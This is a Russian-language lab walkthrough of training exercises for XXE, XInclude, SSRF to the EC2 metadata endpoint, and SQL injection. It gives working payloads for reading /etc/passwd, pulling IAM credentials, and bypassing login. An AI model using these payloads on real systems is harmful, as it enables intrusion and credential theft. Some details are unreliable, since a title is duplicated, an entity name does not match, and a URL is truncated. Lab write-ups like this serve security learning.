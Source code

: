 # XXE

## Lab: Exploiting XXE using external entities to retrieve files

После поверхностной инспекции содержимого сайта, можно заметить форму stockCheckForm, расположенную внизу страницы конкретного продукта, например /product?productId=1. Отправка этой формы инициирует передачу данных в XML формате, что ввиду некорректной проверки содержимого приводит к уязвимости, эксплуатация которой возможна при при создании сущности <br>
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
<br>
и ее вызове &res; в скрытом параметре productId.

____

## Lab: Exploiting XXE using external entities to retrieve files

В описании задания сказано, что необходимо получить "IAM secret access key from the EC2 metadata endpoint". Путем чтения доков ПО EC2, [обнаруживаем](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html), что для роли admin указанное выше можно получить по пути <br>
```url
/latest/meta-data/iam/security-credentials/
```
доступном на 80 порту
169.254.169.254.<br>
После мы эксплуатируем SSRF, отправляя аналогично предыдущему заданию запрос с XXE
```xml
<!DOCTYPE foo [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]> 
```
и добавляя вызов сущности в productId.
____

## Lab: Exploiting XInclude to retrieve files

Отправляя checkstock, добавляем в productId

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```
____


## Lab: Exploiting XXE via image file upload
Замечаем возможность добавлять комментарии под постами и прикреплять к комментариям изображение. <br>
Загражаем файл 1.svg со следующим содержимым:
```xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
На картинке рядом с нашим комментарием появляется hostname.

____
____
____
____
____

# SQL

## Lab: SQL injection vulnerability allowing login bypass

Манипуляции с productId не дают положительных результатов, так как, по видимому, значение данного параметра экранируется. Замечаем форму логина. В поле Username вводим:
```
administrator' or '1'='1 --
```
и произвольную последовательность символов длины 1 в поле password, так как 
### ***"Please fill out this field!"***.
____

## Lab: SQL injection UNION attack, finding a column containing text

Выбрав категорию ```'+or+1=1--```, замечаем, что нам отобразились все продукты, что говорит о наличии уязвимости SQLi.<br>
Определяем количество столбцов возвращаемых основным запросом:
```
/filter?category='+union+select+NULL+--
/filter?category='+union+select+NULL,NULL+--
/filter?category='+union+select+NULL,NULL,NULL+--
...
```
Оказывается, их 3. Предпологается, что первый столбец содержит (это распространенная практика) цифровой уникальный идентификатор id продукта, поэтому, так как в лабораторке от нас требуется возвращение SQL-запросов конкретной строки, вписываем на место второго столбца ___%uniquestrng%___, написанную под __'Back to lab home'__.
Получается запрос
```
ilter?category='+union+select+NULL,'0qOP0A',NULL+--
```
